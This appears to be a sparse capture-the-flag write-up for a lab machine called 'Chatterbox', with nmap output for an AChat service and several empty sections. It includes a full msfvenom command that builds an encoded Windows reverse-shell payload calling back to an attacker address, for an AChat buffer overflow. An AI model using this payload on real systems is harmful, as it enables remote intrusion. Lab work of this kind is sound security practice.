

# Chatterbox

Deep tcp scan:

```bash
PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
|_http-comments-displayer: Couldn't find any comments.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-headers: 
|   Connection: close
|   Server: AChat
|   
|_  (Request type: GET)
|_http-mobileversion-checker: No mobile version detected.
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-security-headers: 
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
|_http-traceroute: ERROR: Script execution failed (use -d to debug)
| http-useragent-tester: 
|   Status for browser useragent: 204
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-xssed: No previously reported XSS vuln.
|_unusual-port: http unexpected on port tcp/9255
9256/tcp open  achat   AChat chat system
```

Nikto:


Dirb:


Searchsploit:

Found a Remote Buffer Overflow:

```bash
#modify by generating own code, needs to be stageless payload
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.27 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```


Catch shell:


Winpeas finds creds:

